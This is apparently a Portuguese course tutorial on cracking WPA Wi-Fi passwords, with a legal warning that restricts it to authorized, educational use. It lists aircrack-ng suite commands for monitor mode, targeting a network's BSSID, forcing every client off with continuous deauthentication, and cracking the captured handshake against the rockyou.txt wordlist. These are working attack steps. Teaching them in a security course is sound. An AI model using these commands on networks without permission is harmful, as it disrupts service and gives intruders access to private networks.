 # <p align="center">Disciplina de Segurança da Informação do Instituto Federal do Piaui</p>
# <p align="center">ATAQUE WPA CAPTURANDO HANDSHAKE COM FORÇA BRUTA
</p>

---

## <p style="color:red" align="justify">Atenção: Tentar realizar esse procimento em uma rede não autorizada resulta-se em crime. Este procedimento deve ser usado apenas para fins educacionais e testes de segurança em redes que você tem permissão para acessar.</p>

## Vídeo Tutorial [Youtube](https://youtu.be/z6vb1Fl77cg)

## <p align="justify">Este tutorial mostra o passo a passo para capturar o handshake WPA e tentar quebrar a senha da rede usando um dicionário de senhas.</p>
---

### Comandos a serem seguidos
- [ ] **ip address**
    - Comando para identificar e analisar as interfaces de redes
- [ ] **iwconfig**
    - Comando específico para identificar e analisar interfaces sem fio
- [ ] **sudo airmon-ng check kill**
    - Comando serve para parar processos que atrapalham o modo monitor da placa Wi-Fi.
- [ ] **sudo airmon-ng start wlan0**
    - Comando serve para colocar a placa Wi-Fi em modo monitor.
- [ ] **iwconfig**
    - somente para conferir se está em modo monitor
- [ ] **sudo airodump-ng wlan0mon**
    - comando serve para iniciar a captura de pacotes Wi-Fi com a interface em modo monitor
- [ ] **sudo airodump-ng wlan0mon -c 1 --bssid xx:xx:xx:xx:xx:xx**
    - comando serve focar em uma rede específica e capturar o Handshake WPA (se alguém se conectar), pacotes de dados e informações dos dispositivos conectados
- [ ] **sudo airodump-ng -w arquivocaptura -c 1 --bssid xx:xx:xx:xx:xx:xx wlan0mon** (permanecer em execução)
    - Esse comando foca exclusivamente na rede Wi-Fi alvo e salva os pacotes capturados

- [ ] **sudo aireplay-ng --deauth 0 -a xx:xx:xx:xx:xx:xx wlan0mon**
    - é usado para forçar a desconexão de todos os clientes conectados a uma rede Wi-Fi, com o objetivo de capturar o handshake WPA/WPA2 quando eles se reconectarem.

- [ ] **sudo aircrack-ng arquivocaptura-01.cap -w ~/rockyou.txt**
    - Lê o arquivo .cap onde está o handshake WPA/WPA2 e testa cada senha do arquivo rockyou.txt e compara com os dados do handshake se a senha correta estiver na lista será exibida na tela. Fim!
